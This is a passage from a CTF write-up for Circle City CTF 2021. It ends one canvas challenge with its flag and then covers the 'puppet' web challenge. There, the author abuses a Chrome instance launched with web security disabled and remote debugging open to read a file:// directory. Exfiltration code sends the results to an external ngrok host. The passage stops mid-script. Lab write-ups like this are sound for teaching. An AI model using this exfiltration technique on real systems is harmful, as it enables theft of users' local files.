 ```js
      document.body.appendChild(scrpt)
    }
  img.src = src;
  document.body.appendChild(canvas);

}
</script>
```

```text
CCC{c4nvas_b64}
```

# puppet (web)

```text
The flag has a random name in ~/Documents/. Pwn my browser:
```
[puppet](https://github.com/b01lers/circle-city-ctf-2021/raw/main/web/puppet/dist/puppet.zip)

```js
const browser = await puppeteer.launch({
  dumpio: true,
  args: [
    '--disable-web-security',
    '--user-data-dir=/tmp/chrome',
    '--remote-debugging-port=5000',
    '--disable-dev-shm-usage', // Docker stuff
    '--js-flags=--jitless' // No Chrome n-days please
  ]
})
```
No same origin policy (--disable-web-security) and remote debugging is quite the combo. By remotely controlling the browser we can use the file:// protocol, making it possible to enumerate files and then leak them. Pardon my gross exploit, I was running on very little sleep and I don't have it in me to clean it up now. I just hosted it as an HTML page and pointed the admin bot towards it. 

```js
const blobToBase64 = blob => {
  const reader = new FileReader();
  reader.readAsDataURL(blob);
  return new Promise(resolve => {
    reader.onloadend = () => {
      resolve(reader.result);
    };
  });
};

fetch("http://localhost:5000/json/new?file:///home/inmate/Documents")
.then((res) => res.blob())

fetch("http://localhost:5000/json/list")
.then((res) => res.json())
.then((json) => {
	found = json.find(ele => ele.url == "file:///home/inmate/Documents")
	window.ws = new WebSocket(found.webSocketDebuggerUrl)
	ws.onerror = (e=>{document.writeln('error')})
	ws.onmessage = (e=>{

	  fetch("http://6c3d5682e207.ngrok.io?onmsg=" + e.data).then((r) => console.log(r))
	  var match = e.data.match(/(flag_.*?\.txt)/g);
	  fetch("http://6c3d5682e207.ngrok.io?match=" + match[0] ).then((r) => {

	  	console.log(r)
	  })
```